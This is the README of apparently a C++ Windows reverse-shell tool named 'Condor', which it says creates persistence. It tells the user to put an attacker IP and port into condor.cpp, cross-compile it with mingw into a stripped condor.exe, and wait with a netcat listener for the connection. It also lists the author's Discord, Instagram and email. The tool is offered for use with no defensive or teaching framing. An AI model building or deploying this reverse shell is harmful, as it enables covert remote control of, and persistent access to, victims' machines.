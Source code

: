 ##  reverse shell V1.0
## Language 
    C++
## Author
    Condor
## Organization 
    I'M ROOT 
## Discord 
    https://discord.gg/wkn8gdEjjW
## Instagram 
    https://www.instagram.com/_samueleabbate/
## JobApplication 
    samuele13213@gmail.com

##  ITA
    Una reverse shell che crea una persistenza!!!
    Per qualsiasi problema o richiesta vi consiglio di unirvi nel discord di I'M ROOT "https://discord.gg/wkn8gdEjjW"
    Sarò felice di aiutarvi.

## en
    A reverse shell that creates persistence !!!
    For any problem or request I suggest you join the I'M ROOT discord 
    "https://discord.gg/wkn8gdEjjW"
    I will be happy to help you.

##  change The IP and Port number in the source code

    There is **condor.cpp** file you have to open and change the **ip address** and **port number**

## Compile it

    apt install mingw-w64

    i686-w64-mingw32-g++ condor.cpp -o condor.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

## Start  the netcat Listener
    
    nc -lvnp <port number>
